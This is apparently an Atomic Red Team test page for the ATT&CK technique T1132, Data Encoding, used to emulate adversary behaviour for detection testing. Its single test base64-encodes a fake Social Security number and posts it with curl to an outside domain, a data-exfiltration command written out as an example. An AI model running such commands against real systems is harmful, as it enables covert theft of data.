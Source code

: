 # T1132 - Data Encoding
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1132)
<blockquote>Command and control (C2) information is encoded using a standard data encoding system. Use of data encoding may be to adhere to existing protocol specifications and includes use of ASCII, Unicode, Base64,  MIME, UTF-8, or other binary-to-text and character encoding systems. (Citation: Wikipedia Binary-to-text Encoding) (Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Base64 Encoded data.](#atomic-test-1---base64-encoded-data)


<br/>

## Atomic Test #1 - Base64 Encoded data.
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** macOS, Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|


#### Run it with `sh`! 
```
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```



<br/>
